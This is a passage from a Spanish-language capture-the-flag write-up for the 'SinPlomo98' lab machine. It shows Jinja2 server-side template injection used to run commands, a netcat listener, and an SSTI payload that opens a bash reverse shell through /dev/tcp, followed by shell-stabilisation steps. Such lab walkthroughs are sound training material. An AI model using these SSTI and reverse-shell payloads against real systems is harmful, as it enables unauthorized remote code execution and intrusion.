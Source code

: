 Funciona, se ejecuta la multiplicación.

Vamos a probar si podemos ejecutar comandos, así que tratemos de ejecutar **id**.

Prueba esto en el input:

{% raw %}
```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
{% endraw %}

<p align="center">
<img src="/assets/images/THL-writeup-sinPlomo98/Captura12.png">
</p>

Excelente, podemos ejecutar comandos.

Entonces, podemos ejecutar una **Reverse Shell**. 

Abre una **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

Prueba esta **Reverse Shell** y ejecútala:

{% raw %}
```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen("bash -c 'bash -i >& /dev/tcp/Tu_IP/443 0>&1'").read() }}
```
{% endraw %}

Observa la **netcat**
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.10.20] 59900
bash: no se puede establecer el grupo de proceso de terminal (469): Función ioctl no apropiada para el dispositivo
bash: no hay control de trabajos en este shell
tcuser@SinPLomo98:~/prueba$ whoami
whoami
tcuser
```
Genial, estamos dentro.

Ya solo falta tener una shell interactiva:
```bash
# Paso 1:
script /dev/null -c bash

# Paso 2:
CTRL + Z
stty raw -echo; fg

# Paso 3:
reset -> xterm
export TERM=xterm
export SHELL=bash
stty rows 51 columns 189
```
Y listo.
